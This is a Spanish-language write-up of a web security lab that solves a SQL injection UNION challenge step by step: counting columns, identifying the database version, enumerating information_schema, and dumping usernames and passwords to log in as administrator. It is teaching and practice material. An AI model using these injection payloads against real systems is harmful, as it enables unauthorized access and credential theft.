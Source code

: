 
Para resolver el laboratorio, realice un ataque de inyección SQL UNION que recupere todos los nombres de usuario y contraseñas, y utilice la información para iniciar sesión como usuario `administrator`

![[Pasted image 20250721205714.png]]

#### Averiguar la cantidad de columnas que tiene la tabla en uso:
****
Si realizamos un ordenamiento respecto a la segunda columna con `' ORDER BY 2-- -`
o `' UNION SELECT "a","b"-- -` vemos que la web no lanza ningun error. Por lo tanto entendemos que la tabla tiene 2 columnas.

Consulta para averiguar la cantidad de columnas de la tabla en uso: `SELECT * FROM articles WHERE category='Gifts' ORDER BY 2-- -'`

Consulta (UNION): `SELECT * FROM articles WHERE category='Gifts' UNION SELECT "a","b"-- -'`

![[Pasted image 20250721205818.png]]

La tabla actual en uso tiene dos columnas, ahora debemos conocer a que BBDD nos estamos enfrentando.

#### Averiguar a qué Base de Datos nos estamos enfrentando
****
Cada gestor de bases de datos tiene su forma de consultar la versión de la misma, de colocar comentarios, etc. Por lo tanto tendremos en cuenta lo siguiente al querer averiguar la versión.
##### Database version

| Gestor     | Consulta                                                           |
| ---------- | ------------------------------------------------------------------ |
| Oracle     | `SELECT banner FROM v$version   SELECT version FROM v$instance   ` |
| Microsoft  | `SELECT @@version`                                                 |
| PostgreSQL | `SELECT version()`                                                 |
| MySQL      | `SELECT @@version`                                                 |
Consulta utilizada para averiguar la version de la BBDD: `' UNION SELECT NULL,version()-- -`

![[Pasted image 20250721210053.png]]

#### Conocer la tabla que almacena los usuarios y las contraseñas.
****
Para ello, haremos uso de `information_schema`
- `information_schema.schemata` -> Bases de datos existentes.
- `information_schema.tables` -> Tablas existentes
- `information_schema.columns` -> Columnas existentes

Consulta para ver las Bases de datos existentes: `' UNION SELECT NULL,schema_name FROM information_schema.schemata-- -`

![[Pasted image 20250721210239.png]]

Vemos que hay 3 bases de datos, la que a nosotros nos interesa es la `public`. Lo siguiente que queremos hacer es ver las tablas existentes dentro de la base de datos `public`. Para ello, usaremos la siguiente consulta:

Consulta para averiguar las tablas de una Base de dato específica: `' UNION SELECT NULL,table_name FROM information_schema.tables WHERE table_schema='public'-- -`

![[Pasted image 20250721210421.png]]

Aquí vemos dos tablas dentro de la base de datos  `public`: `products` y `users`.
En la tabla `users` están almacenadas las credenciales.

Consulta para conocer las columnas de una tabla: `' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_schema='public' AND table_name='users'-- -`

![[Pasted image 20250721210529.png]]

Consulta para mostrar los datos de las columnas de forma concatenada: `'UNION SELECT NULL,username||':'||password FROM users-- -`

![[Pasted image 20250721211139.png]]

Aquí vemos representada el usuario y la contraseña del usuario `administrator`.
#### Nos autenticamos como el usuario administrator
****

![[Pasted image 20250721211246.png]]

![[Pasted image 20250721211354.png]]